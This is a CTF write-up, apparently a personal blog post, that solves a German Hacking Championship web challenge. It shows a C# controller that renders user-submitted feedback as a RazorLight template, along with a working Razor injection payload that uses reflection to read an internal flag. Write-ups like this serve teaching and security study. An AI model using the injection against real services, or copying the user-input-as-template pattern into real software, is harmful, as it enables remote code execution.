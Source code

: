 +++
date = '2025-10-07T11:34:57+02:00'
title = 'DHM 2025 - DotNett'
keywords = ['ctf']
+++

One of the challenges of the second iteration of the [German Hacking Championship](https://hacking-meisterschaft.de) was a web-based feedback form, written in C#.
The service contained an internal class `_Flag_` that we had to leak:

```csharp
internal class _Flag_ {
    internal static string FLAG => "DHM{fake}";
}
```

<!--more-->

The only input possibility was the feedback form.

{{< centerimage src="/posts/dotnett/feedback.png" alt="Dodge car" maxWidth="300px" >}}

The `FeedbackController` defines entry paths to submit and view our feedback.
The code stores our feedback in a dictionary called `Templates`, and redirects us to `/report?id={id}`, which renders the submitted comment as a Razor template.
Razor is a markup language for embedding .NET code in webpages, similarly to the templating engine of the Django framework.
Intuitively, template injection might be the solution.

```csharp {hl_lines=["29-42"]}
using Microsoft.AspNetCore.Mvc;
using RazorLight;
using System;
using System.Collections.Concurrent;
using System.Threading.Tasks;

namespace DHM_Feedback.Controllers {
    public class FeedbackController : Controller {
        private static readonly ConcurrentDictionary<string, string> Templates = new();
        private static readonly RazorLightEngine Engine = new RazorLightEngineBuilder()
            .UseMemoryCachingProvider()
            .Build();

        [HttpGet("/feedback")]
        public IActionResult Feedback() => View();

        [HttpGet("/")]
        public IActionResult Index() {
            return View("Index");
        }

        [HttpPost("/submit")]
        public IActionResult Submit([FromForm] string comment) {
            var id = Guid.NewGuid().ToString("N");
            Templates[id] = comment;
            return Redirect($"/report?id={id}");
        }

        [HttpGet("/report")]
        public async Task<IActionResult> Report(string id) {
            if (id == null || !Templates.ContainsKey(id)) {
                return NotFound("No template");
            }
            var template = Templates[id];
            string result;
            try {
                result = await Engine.CompileRenderStringAsync<object>(id, template, null);
            } catch (Exception ex) {
                result = "[error] " + ex.Message;
            }
            return Content(result, "text/html");
        }
    }
}
```

The following line is interesting:
```csharp
    result = await Engine.CompileRenderStringAsync<object>(id, template, null);
```

This is very problematic since the second argument of the function is the [template that will be render](https://github.com/toddams/RazorLight?tab=readme-ov-file).
Using user input as a template implies code execution.
To write C# in our feedback form, we can use the `@` symbol, which marks the transition from HTML to C#.
Using `@(_Flag._).FLAG`, we obtain as an output:

```
[error] Failed to compile generated Razor template: - (0:6) '_Flag_' is inaccessible due to its protection level See CompilationErrors for detailed information
```

The issue is here that we cannot reference `_Flag_` because it's internal.
We could, however, obtain the flag using reflection.
Reflection is a way to let a program inspect and interact with its own metadata and types at runtime.
This method allows to read private members of internal classes.
Since the code that contains this member is compiled into the `DHM_Feedback.dll`, we first obtain the `DHM_Feedback` assembly, reference the type and obtain the internal property `FLAG`:

```csharp
@using System.Reflection
@using System

@{
    var assembly = Assembly.Load("DHM_Feedback");
    var type = assembly.GetType("_Flag_");
    var prop = type.GetProperty("FLAG", BindingFlags.NonPublic | BindingFlags.Static);
    var flag = prop.GetValue(null);
    @flag
}
```
